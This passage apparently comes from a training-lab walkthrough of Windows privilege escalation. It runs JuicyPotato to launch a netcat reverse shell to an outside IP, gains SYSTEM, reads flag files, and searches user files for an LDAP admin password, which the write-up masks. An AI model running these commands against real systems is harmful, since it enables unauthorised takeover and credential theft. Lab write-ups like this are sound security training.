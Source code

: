```
PS C:\windows\system32\inetsrv> C:\Users\Public\JuicyPotato.exe -l 53375 -p C:\Windows\System32\cmd.exe -a "/c C:\Users\Public\nc.exe 10.10.15.186 7331 -e cmd.exe" -c "{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}" -t *
```

```
[CONTINUE]

connect to [10.10.15.186] from (UNKNOWN) [10.129.216.148] 49700
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

```
C:\Windows\system32> whoami

nt authority\system
```

```
C:\Windows\system32> type C:\Users\Administrator\Desktop\flag.txt

Ev3ry********************* 📌
```

```
C:\Windows\system32> cd C:\ && where /R C:\ confidential.txt

C:\Users\Administrator\Music\confidential.txt
```

```
C:\Windows\system32> type C:\Users\Administrator\Music\confidential.txt

5e5a7*************************** 📌
```

#### Credential Hunting - Search File Contents for String

```
C:\Windows\system32> cd C:// & findstr /SI "ldapadmin" *.ini *.cfg *.config *.xml

FINDSTR: Out of memory ❌
```

```
C:\Windows\system32> powershell -Command "Get-ChildItem -Path C:\Users\ -Recurse -File | Select-String -Pattern 'ldapadmin'"

[SNIP]

Users\Administrator\.ApacheDirectoryStudio\.metadata\.plugins\org.apache.direct
ory.studio.connection.core\connections.xml:4:  <connection 
id="21f81b55-9e67-4f2a-b9e7-1939d662f017" name="LDAP.inlanefreight.local" 
host="dc01.inlanefreight.local" port="389" encryptionMethod="NONE" 
authMethod="SIMPLE" bindPrincipal="ldapadmin" 
bindPassword="car3f****************" 📌 saslRealm="" saslQop="AUTH" 
saslSecStrenght="HIGH" saslMutualAuth="false" krb5CredentialsConf="USE_NATIVE" 
krb5Config="DEFAULT" krb5ConfigFile="" krb5Realm="" krb5KdcHost="" 
krb5KdcPort="88" readOnly="false" timeout="30000">
```

---
---